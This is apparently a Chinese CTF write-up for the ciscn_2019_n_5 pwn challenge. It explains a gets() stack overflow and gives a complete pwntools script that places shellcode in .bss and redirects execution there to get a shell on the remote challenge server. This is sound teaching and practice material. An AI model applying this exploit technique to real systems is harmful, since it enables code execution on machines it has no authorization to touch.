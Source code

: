 首先检查安全机制

![image-20201103165102208](https://static.hack1s.fun/images/2021/02/06/image-20201103165102208.png)

运行尝试一下

![image-20201103165214264](https://static.hack1s.fun/images/2021/02/06/image-20201103165214264.png)

反编译得到main函数代码

![image-20201103165340664](https://static.hack1s.fun/images/2021/02/06/image-20201103165340664.png)

text距离rbp有20h

这里的name是位于bss段的

![image-20201103170309603](https://static.hack1s.fun/images/2021/02/06/image-20201103170309603.png)

第一个read读name的时候可以读到`0x64`的长度

之后gets函数是读text，这里可以溢出rbp



那么思路应该就是首先在第一个输入name的时候将shellcode输入到bss段

之后使用gets函数溢出rbp，跳转到bss那里执行代码

```python
from pwn import *

io = remote('node3.buuoj.cn',26740)
#io = process('./ciscn_2019_n_5')

io.recvuntil('name\n')
payload1 = asm(shellcraft.amd64.linux.sh(),arch='amd64',os='linux')

io.sendline(payload1)
io.recvuntil('name!\n')

bss_name = 0x601080
payload2 = 0x20*'a' + 'b'*8 + p64(bss_name)

io.sendline(payload2)
io.interactive()
```


